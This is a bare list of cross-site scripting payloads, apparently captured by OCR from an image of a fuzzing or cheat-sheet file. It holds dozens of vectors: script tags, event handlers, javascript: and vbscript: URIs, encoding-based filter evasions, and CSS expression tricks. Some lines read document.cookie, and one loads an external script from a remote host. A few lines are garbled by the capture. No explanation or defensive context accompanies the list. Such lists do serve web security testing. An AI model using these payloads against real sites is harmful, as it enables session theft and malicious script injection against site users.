 <table background="javascript:alert(1)">
<BASE HREF="javascript:alert('XSS');//">
<BGSOUND SRC="javascript:alert('XSS');">
</textarea><script>alert(/xss/)</script>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<script>var var = 1; alert(var)</script>
<body oninput=alert(1)><input autofocus>
<IMG DYNSRC=\"javascript:alert('XSS')\">
<;/script>;<;script>;alert(1)<;/script>;
<;IMG SRC=';vbscript:msgbox(";XSS";)';>;
<SCRIPT>a=/XSS/nalert(a.source)</SCRIPT>
<iframe/ "onload=alert(/XSS/)></iframe> 
<img src onerror /" '"= alt=alert(1)//">
<style>*{x:ｅｘｐｒｅｓｓｉｏｎ(write(1))}</style>
<div style=content:url(test2.svg)></div>
\u0062\u003d/\u/\u005b\u002d\u0031\u005d
\u007a\u003d/00/\u005b\u002d\u0031\u005d
this.watch('_',function(){return eval});
.0.*?1.:Script(.0.*?1.:'\134u006eame')()
<iframe/ /onload=alert(/XSS/)></iframe> 
eval(toNonAscii("return alert"))('123'); 
Execute(MsgBox(chr(88)&chr(83)&chr(83)))<
34) <body/onload=&lt;!--&gt;&#10alert(1)>
<A HREF="http://www.google.com./">XSS</A>
<script>alert(document.location)</script>
""@cc_on,x=@anything 'something'@anything
“><ScRiPt>alert(document.cookie)</script>
<body onLoad="while(true) alert('XSS');">
[~alert(1)] --> writes -1 instead of NaN.
<TD BACKGROUND="javascript:alert('XSS')">
%BCscript%BEalert(%A2XSS%A2)%BC/script%BE
<body onload="document.vulnerable=true;">
</XSS STYLE=xss:expression(alert('XSS'))>
<;A HREF=";//www.google.com/";>;XSS<;/A>;
<;scrscriptipt>;alert(1)<;/scrscriptipt>;
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
42)  <--`<img/src=` onerror=alert(1)> --!>
eval((['ale','rt(1)']+'').replace(/,/,''))
<body onunload="javascript:alert('XSS');">
alert(String.fromCharCode(88,83,83));'))">
10) <%
<img src=foo.png onerror=alert(/xssed/) />
<IMG SRC="jav&#x09;ascript:alert('XSS');">
src="http://www.site.com/XSS.js"></script>
<XSS STYLE="xss:expression(alert('XSS'))">
<SCRIPT SRC=http://ha.ckers.org/xss.js?<B>
"/></a></><img src=1.gif onerror=alert(1)>
[_=alert,__=document.cookie]&delete-_(__) 
“><script >alert(document.cookie)</script>
<script>({0:#0=alert/#0#/#0#(0)})</script>
document.body.innerHTML=name location=name
s=String((/S/+[])[1]+v+x+i+o+(/g/+[])[1]);
&#22924;=/a/[&#54280;]+/lert(1)/[&#54280;]
<object data=jav&#x61script:\u0061lert(2)>
"><script>ale rt('XSS');</s c r i p t><img src=x onerror=alert(1)//">
<form><button formaction="javascript:alert(1)">X
<marquee><script>alert('XSS')</script></marquee>